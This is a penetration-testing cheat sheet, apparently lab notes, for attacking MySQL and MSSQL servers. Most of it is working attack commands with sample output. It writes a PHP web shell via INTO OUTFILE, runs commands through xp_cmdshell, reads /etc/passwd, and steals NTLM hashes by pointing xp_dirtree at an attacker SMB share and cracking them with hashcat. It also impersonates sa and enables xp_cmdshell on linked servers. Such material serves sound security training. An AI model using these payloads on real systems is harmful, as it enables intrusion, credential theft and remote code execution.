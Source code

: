 ```yaml
---

---
```


# SQL

## Connect

```bash
# MySQL
mysql -u julio -pPassword123 -h 10.129.20.13

# MSSQL
# Win
c:\> sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30

# Lin
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
# SERVERNAME\\accountname or .\\accountname for local
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
# Alt
mssqlclient.py -p 1433 julio@10.129.203.7 
```

## SQL Syntax

### Database data

show db -> use db -> -> sh tbl - get tbl data

```sql
# MySQL
SHOW DATABASES;
USE htbusers;
SHOW TABLES;
SELECT * FROM users;

# MSSQL
SELECT name FROM master.dbo.sysdatabases
USE htbusers
SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES
1> SELECT * FROM tb_flag
2> go
```

### Command execution

```sql
# MySQL
show variables like "secure_file_priv"; # Check if empty
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

# MSSQL
1> xp_cmdshell 'whoami'
2> GO

output
-----------------------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```

### Read local files

```sql
# MySQL
mysql> select LOAD_FILE("/etc/passwd");

# MSSQL
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

## Capture MSSQL Service Hash

Start [Responder](https://github.com/lgandx/Responder) or [impacket-smbserver](https://github.com/SecureAuthCorp/impacket)

```bash
sudo responder -I tun0

sudo impacket-smbserver share ./ -smb2support

# Crack it
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

```mssql
# XP_DIRTREE Hash Stealing
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO

#XP_SUBDIRS Hash Stealing
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

## Impersonate Existing Users with MSSQL

Sysadmins can impersonate anyone by default, But for non-administrator users, privileges must be explicitly assigned.

```mssql
# Identify users
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin

# Verify current user and role
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio                                                                                                                    

(1 rows affected)

-----------
          0 # No sysadmin role go for sa

# Impersonate sa
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

-----------
sa

(1 rows affected)

-----------
          1
```

## MSSQL - [Linked Servers](https://docs.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine)

```mssql
# Identify - 1 is remote 2 is linked
1> SELECT srvname, isremote FROM sysservers
2> GO

srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1
10.0.0.12\SQLEXPRESS                0

# Get user and privs
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO

DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote   1
```

### Example - Impersonation

```sql
# Get users
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
GO

# Find remote server
SELECT srvname, isremote FROM sysservers
GO

# Impersonat
EXECUTE AS LOGIN = 'john'
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
GO

# allow xp_cmdshell
EXECUTE('EXECUTE sp_configure ''show advanced options'', 1;RECONFIGURE;EXECUTE sp_configure ''xp_cmdshell'', 1;RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]

# Grab flag
EXECUTE('xp_cmdshell ''more c:\users\administrator\desktop\flag.txt''') AT [LOCAL.TEST.LINKED.SRV]
```



## Vulns

- MMSQL - SMB relay or xp_dirtree

